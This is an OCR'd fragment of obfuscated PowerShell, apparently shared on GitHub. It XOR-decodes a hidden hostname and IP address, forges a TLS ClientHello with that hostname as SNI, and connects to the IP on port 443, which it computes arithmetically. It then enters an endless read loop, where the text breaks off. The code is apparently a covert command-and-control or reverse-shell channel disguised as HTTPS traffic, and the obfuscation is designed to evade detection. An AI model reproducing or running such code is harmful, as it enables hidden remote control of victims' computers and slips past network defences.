 ```powershell
                 $B88B888B8888B888 = (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(168,187,172,183,184,167,240,186,171,169,176,177,176,186,187,172,240,189,177,179) -BB8BB8B8BBB8B8B8 222)
          $BBBB8B8BB888B88B = [System.Text.Encoding]::ASCII.GetBytes($B88B888B8888B888)
            $BB88BBBB88B8888B = [byte[]] ([BitConverter]::GetBytes([UInt16]$BBBB8B8BB888B88B.Length))
                          [Array]::Reverse($BB88BBBB88B8888B)
                       $B88888B888888BB8 = @(0x00) + $BB88BBBB88B8888B + $BBBB8B8BB888B88B
                   $BB8BBBB8B8888BB8 = [byte[]] ([BitConverter]::GetBytes([UInt16]$B88888B888888BB8.Length))
                       [Array]::Reverse($BB8BBBB8B8888BB8)
         $B8888B88BB888B88 = $BB8BBBB8B8888BB8 + $B88888B888888BB8
              $B888B888BBB8B8BB = [byte[]] ([BitConverter]::GetBytes([UInt16]$B8888B88BB888B88.Length))
        [Array]::Reverse($B888B888BBB8B8BB)
                     $B8BB88BBBB8B88B8 = @(0x00,
                0x00) + $B888B888BBB8B8BB + $B8888B88BB888B88
                 $BBBB88B8BB88B88B = @(0x00, 0x0b,0x00,0x04,0x03,0x00,0x01,0x02,
                                 0x00,0x0a,0x00,0x16,0x00,0x14,0x00,0x1d,0x00,0x17,0x00,0x1e,0x00,0x19,0x00,0x18,0x01,0x00,0x01,0x01,0x01,0x02,0x01,0x03,0x01,0x04,
                                            0x00,0x23,0x00,0x00,
                              0x00,0x16,0x00,0x00,
                                      0x00,0x17,0x00,0x00,
                                    0x00,0x0d,0x00,0x1e,0x00,0x1c,0x04,0x03,0x05,0x03,0x06,0x03,0x08,0x07,0x08,0x08,0x08,0x09,0x08,0x0a,0x08,0x0b,0x08,0x04,0x08,0x05,0x08,0x06,0x04,0x01,0x05,0x01,0x06,0x01,
                                      0x00,0x2b,0x00,0x03,0x02,0x03,0x04,
                             0x00,0x2d,0x00,0x02,0x01,0x01,
                                   0x00,0x33,0x00,0x26,0x00,0x24,0x00,0x1d,0x00,0x20,
                          0x35,0x80,0x72,0xd6,0x36,0x58,0x80,0xd1,0xae,0xea,0x32,0x9a,0xdf,0x91,0x21,0x38,0x38,0x51,0xed,0x21,0xa2,0x8e,0x3b,0x75,0xe9,0x65,0xd0,0xd2,0xcd,0x16,0x62,0x54)
           $BB88BB8BB88BB88B = $B8BB88BBBB8B88B8 + $BBBB88B8BB88B88B
          $BBBB8B88888888B8 = [byte[]] ([BitConverter]::GetBytes([UInt16]$BB88BB8BB88BB88B.Length))
         [Array]::Reverse($BBBB8B88888888B8)
     $B8888BBB888B8888 = @(0x03,0x03,0x00,0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08,0x09,0x0a,0x0b,0x0c,
                        0x0d,0x0e,0x0f,
               0x10,0x11,0x12,0x13,0x14,0x15,0x16,0x17,
                        0x18,
               0x19,0x1a,0x1b,0x1c,0x1d,0x1e,0x1f,0x20,0xe0,0xe1,
                   0xe2,0xe3,0xe4,0xe5,0xe6,0xe7,0xe8,0xe9,0xea,0xeb,0xec,0xed,0xee,0xef,0xf0,0xf1,0xf2,0xf3,0xf4,0xf5,0xf6,0xf7,0xf8,0xf9,0xfa,
                     0xfb,0xfc,0xfd,0xfe,0xff,0x00,0x08,0x13,0x02,0x13,0x03,0x13,0x01,0x00,0xff,0x01,0x00)
          $BB8B8BBBB88B8B8B = $B8888BBB888B8888 + $BBBB8B88888888B8 + $BB88BB8BB88BB88B
             $BB8BBB88B8B8B888 = [byte[]] ([BitConverter]::GetBytes($BB8B8BBBB88B8B8B.Length))
        [Array]::Reverse($BB8BBB88B8B8B888)
     $BBB88BBB888B8B8B = @(0x01) + $BB8BBB88B8B8B888[1..3] + $BB8B8BBBB88B8B8B
        $B88B888B8BB8BBBB = [byte[]] ([BitConverter]::GetBytes([UInt16]$BBB88BBB888B8B8B.Length))
         [Array]::Reverse($B88B888B8BB8BBBB)
                      $BBB888888BB88B88 = @(0x16,
                   0x03, 0x01) + $B88B888B8BB8BBBB + $BBB88BBB888B8B8B
       return ,$BBB888888BB88B88
                 }
 $BBBB8BBBBBB8B88B = New-Object System.Net.Sockets.TcpClient
                    $BBBB8BBBBBB8B88B.Connect((IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(5,7,25,2,25,3,15,25,5,7,7) -BB8BB8B8BBB8B8B8 55), ((50 * 9) - (11 * 2)) + [math]::Pow(2, 3) + [math]::Sqrt(49))
      $BBBB888888B88BBB = $BBBB8BBBBBB8B88B.GetStream()
 $BB88888BB8B8B8BB = llIIlllllIIIlllI
        $BBBB888888B88BBB.Write($BB88888BB8B8B8BB, 0, $BB88888BB8B8B8BB.Length)
        $B8B888BB8B8888BB = New-Object byte[] 16384
          $BBBB888888B88BBB.Read($B8B888BB8B8888BB, 0, $B8B888BB8B8888BB.Length) | Out-Null
                  while ($true) {
              $B8B888BB8B8888BB = New-Object byte[] 16384
```
